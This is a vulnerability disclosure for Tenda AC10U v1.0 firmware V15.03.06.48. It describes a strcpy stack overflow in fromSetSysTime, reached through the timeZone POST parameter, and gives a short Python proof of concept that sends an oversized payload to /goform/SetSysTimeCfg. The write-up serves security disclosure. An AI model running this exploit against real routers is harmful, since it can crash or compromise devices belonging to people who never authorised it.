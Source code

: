 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware  V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware  V15.03.06.48 firmware has a stack overflow vulnerability in the `fromSetSysTime` function. The `timezone` variable receives the `timeZone` parameter from a POST request and is assigned to `timezone_buf` by `strcpy`. However, since the user can control the input of `time`, the statement `strcpy(timezone_buf, timezone);` can cause a buffer overflow. The user-provided  `time` can exceed the capacity of the `timezone_buf` array, triggering this security vulnerability.

![image-20240316224001545](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316224001545.png)

![image-20240316223928851](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316223928851.png)

![image-20240316223948112](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316223948112.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetSysTimeCfg"
payload = b"a"*2000

data = {
        'timeType':'sync',
        'timeZone':payload,
    }
response = requests.post(url, data=data)
print(response.text)
```

![image-20240316224156695](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240316224156695.png)
